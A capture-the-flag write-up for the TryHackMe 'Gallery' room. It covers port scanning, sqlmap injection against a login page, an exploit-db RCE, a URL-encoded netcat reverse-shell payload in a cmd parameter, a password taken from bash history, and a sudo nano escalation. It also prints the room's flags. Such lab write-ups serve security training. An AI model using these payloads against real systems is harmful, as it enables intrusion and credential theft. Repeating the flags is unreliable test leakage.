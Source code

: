 # Gallery THM writeup
<a href = "https://tryhackme.com/room/gallery666"> https://tryhackme.com/room/gallery666 </a>



<h3>1. Question: How many ports are open?</h3>  <br>
Lets start with an nmap scan to get the number of open ports and also i may get a valueable port thats open in the server!
<br>

```
$ nmap 10.10.4.212          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 10:12 EDT
Nmap scan report for 10.10.4.212
Host is up (0.056s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
```

The server have 3 open ports, now i got the answer to the first question, **3**

<hr>

<h3>2. Question: What's the name of the CMS?</h3>
<br>
Opening the website on port 80, i get an apache ubuntu default page, this doesn't help much.. 
but i noticed that there is another web server running on port 8080! Lets check it!

Now the website provided us a login page and with the name of the CMS! **Simple Image Gallery**

<hr>

<h3>3. Question: What's the hash password of the admin user? </h3>
When sending a login request, i noticed that i get a suspicious response:

```
{"status":"incorrect","last_qry":"SELECT * from users where username = 'admin' and password = md5('test') "}
```
This gave me an idea that the Login page maybe got some SQL injection vulnerability!
Running sqlmap i can see it detected that the username paramater is vulnerable to an sql injection attack, now i could easily get the admin's passwords hash.
After some time, sqlmap found the hash of the password
```
$ sqlmap -r req.txt --dump
....
+----------------------------------+
| password                         |
+----------------------------------+
| a228b12a08b6527e7978cbe5d914531c |
+----------------------------------+
```

<hr>
<h3>4. Question: What's the user flag?</h3>
To get the user flag, i have to gain a shell on the system.
<br>
I searched for the CMS name and found a possible RCE exploit on exploit-db:
<a href = "https://www.exploit-db.com/exploits/50214"> https://www.exploit-db.com/exploits/50214 </a> <br>
I downloaded this to my machine and i ran it. <br><br>
The exploit uploaded a file to the server, which contained a ?cmd= paramter<br>

Run netcat in listener mode, so the remote host could connect to my Kali:<br>
```
$ ncat -nlvp 8001
```

I pasted my netcat script in the cmd parameter and i successfully got a more stable netcat reverse shell!
```
http://10.10.191.82/gallery/uploads/1760716080_TagogdgiydphbhaodrhLetta.php?cmd=rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7Cbash+-i+2%3E%261%7Cnc+<Your ip>+8001+%3E%2Ftmp%2Ff
```

<br>
I got shell as www-data, and found the first flag in mike's home directory, but only the user "mike" can read the user.txt, so i have to find a way to be mike!

```
www-data@ip-10-10-191-82:/home/mike$ ls -l
ls -l
total 12
drwx------ 2 mike mike 4096 May 24  2021 documents
drwx------ 2 mike mike 4096 May 24  2021 images
-rwx------ 1 mike mike   32 May 14  2021 user.txt
```

I downloaded linpeas, and ran it. While i was checking the output i noticed that when mike tried to use the command "sudo -l"
he forgot to hit enter, and revealed his password in the bash history file:
```
╔══════════╣ Searching passwords in history files
/var/backups/mike_home_backup/.bash_history:sudo -lb3stpassw0rdbr0xx
/var/backups/mike_home_backup/.bash_history:sudo -l
```

Now i could login to mike's account with the found password: **"b3stpassw0rdbr0xx"** and read the user.txt!
```
mike@ip-10-10-191-82:~$ cat user.txt
THM{af05cd30bfed67849befd546ef}
```

<hr>

<h3>5. Question: What's the root flag?</h3>
I ran "sudo -l" and i noticed there is a program that i can run as root without password

```
mike@ip-10-10-191-82:/opt$ sudo -l
Matching Defaults entries for mike on ip-10-10-191-82:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on ip-10-10-191-82:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
<br><br>
What's inside of opt/rootkit.sh?
```
mike@ip-10-10-191-82:/opt$ cat rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
Aha, so if i run it as root, and write "read" in the input box (which will the sh script provide) it will open a nano UI as root!<br>
So basically if you have nano run as root, you can read any file on the system, and if i go with the /root/root.txt
it will paste the root flag in to the nano editor
<br>
<br>
(CTRL + k)
<br>
<img src = "insert.png">
<br>
<img src = "rootflag.png">

